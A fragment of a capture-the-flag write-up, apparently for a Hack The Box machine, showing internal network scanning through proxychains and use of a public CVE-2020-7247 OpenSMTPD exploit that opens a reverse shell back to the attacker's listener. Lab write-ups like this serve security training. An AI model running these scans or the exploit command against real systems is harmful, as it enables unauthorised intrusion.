 

We have another network IP `10.241.251.0`


```
proxychains4 -f /etc/proxychains.conf nmap 10.241.251.0/24 -Pn 
```

After waiting a bit, we can get an active host 10.241.251.113



```
proxychains4 -f /etc/proxychains.conf nmap 10.241.251.113 -sV -Pn
```


```bash
PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
```


We can grab an exploit from exploitdb

> I'll be using this exploit : https://github.com/QTranspose/CVE-2020-7247-exploit/blob/main/exploit.py



```
proxychains4 -f /etc/proxychains.conf python3 exp.py 10.241.251.113 25 10.10.14.68 9001 j.nakazawa@realcorp.htb
```

<img src="foothold.png">


And we're on the box

---
